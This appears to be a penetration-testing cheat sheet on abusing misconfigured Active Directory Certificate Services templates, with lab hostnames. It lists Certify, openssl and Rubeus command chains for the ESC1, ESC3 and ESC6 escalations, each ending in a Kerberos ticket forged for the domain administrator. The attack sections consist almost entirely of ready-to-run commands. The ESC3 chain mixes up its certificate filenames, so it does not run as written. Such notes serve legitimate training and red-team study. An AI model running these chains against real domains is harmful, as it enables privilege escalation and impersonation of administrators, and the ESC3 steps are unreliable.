 # AD CS

[Active Directory Certificate Services](https://learn.microsoft.com/en-us/windows-server/identity/ad-cs/active-directory-certificate-services-overview) (AD CS) is a Windows Server role for issuing and managing public key infrastructure (PKI) certificates used in secure communication and authentication protocols.



## Tools

Certify and Certipy tools to enumerate and abuse misconfigurations in AD CS:

{% embed url="https://github.com/GhostPack/Certify" %}
Certify
{% endembed %}

{% embed url="https://github.com/ly4k/Certipy" %}
Certipy&#x20;
{% endembed %}

## Enumerate

```powershell
# all registered CAs
Certify.exe cas
# enumerate templates
Certify.exe find
# enumerate vulnerable templates
Certify.exe find /vulnerable
```

## Abuse

### ESC1

ESC1 is when a certificate template permits Client Authentication and allows the enrollee to supply an arbitrary Subject Alternative Name (SAN).

{% code overflow="wrap" %}
```powershell
# Find vul template
Certify.exe find /enrolleeSuppliesSubject

# Request cert
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"HTTPSCertificates" /altname:administrator

# Convert it to pfx and set password
openssl pkcs12 -in esc1.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out esc1.pfx

# Request TGT using the cert
Rubeus.exe asktgt /user:administrator /certificate:esc1.pfx /password:123456 /ptt
```
{% endcode %}

### ESC3

ESC3 is when a certificate template specifies the Certificate Request Agent EKU (Enrollment Agent). This EKU can be used to request certificates on behalf of other users.

{% code overflow="wrap" %}
```powershell
# Find vul template
Certify.exe find /vulnerable

# Request a certificate based on vulnerable template
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:vulnerable-template

# Convert it to pfx and set password
openssl pkcs12 -in esc3agent.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out esc3agent.pfx

# Request a certificate on behalf of DA
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:vulnerable-template /onbehalfof:dcorp\administrator /enrollcert:esc3.pfx /enrollcertpw:123456

# Convert it again to pfx and set password
openssl pkcs12 -in esc3agent.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out esc3agent.pfx

# Get TGT using the pfx certificate
Rubeus.exe asktgt /user:administrator /certificate:esc3.pfx /password:123456 /ptt

```
{% endcode %}

### ESC6

ESC6 is when the CA specifies the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag. \
This flag allows the enrollee to specify an arbitrary  Subject Alternative Name (SAN) on all certificates despite a certificate template's configuration.

{% code overflow="wrap" %}
```powershell
# Find vul template
Certify.exe find 

# Request cert
Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DCCA /template:<vul_template> /altname:administrator

# Convert it to pfx and set password
openssl pkcs12 -in esc6.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out esc6.pfx

# Request TGT using the cert
Rubeus.exe asktgt /user:administrator /certificate:esc6.pfx /password:123456 /ptt
```
{% endcode %}

